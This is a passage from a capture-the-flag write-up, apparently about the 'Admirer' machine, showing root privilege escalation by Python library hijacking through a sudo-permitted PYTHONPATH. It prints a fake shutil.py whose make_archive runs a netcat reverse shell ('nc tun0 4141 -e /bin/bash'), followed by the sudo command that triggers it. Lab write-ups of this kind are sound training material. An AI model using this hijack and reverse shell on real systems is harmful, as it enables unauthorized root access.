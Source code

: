     - and in `backup.py`

		  from shutil import make_archive

	**These looks suspicious**
	* script itself not vulnerable
	* script `admin_tasks.sh` calling `backup.py` in 6th `backup_web()` option.
	* script `backup.py` importing shutil library


## Exploit surface

- user `waldo` can set environment variables for the script, [sudo man](https://linux.die.net/man/5/sudoers)
- this means we can set python path for `/opt/scripts`
- here i can use python hijacking to exploit root, [rastating article](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)

# Root Privesc 

* **Frist**, create dummy `shutil.py` file with reverse shell in it.

	  import os
	  def make_archive(x, y, z):
		  os.system("nc tun0 4141 -e '/bin/bash'")

* **Second**, start netcat listener
* **Third**, run `admin_tasks.sh` script, 

	  waldo@admirer:~$ sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6

  * use option 6 to execute `backup.py` script
  * using `PYTHONPATH` to set python path for `backup.py` to import `shutil.py` from my path.
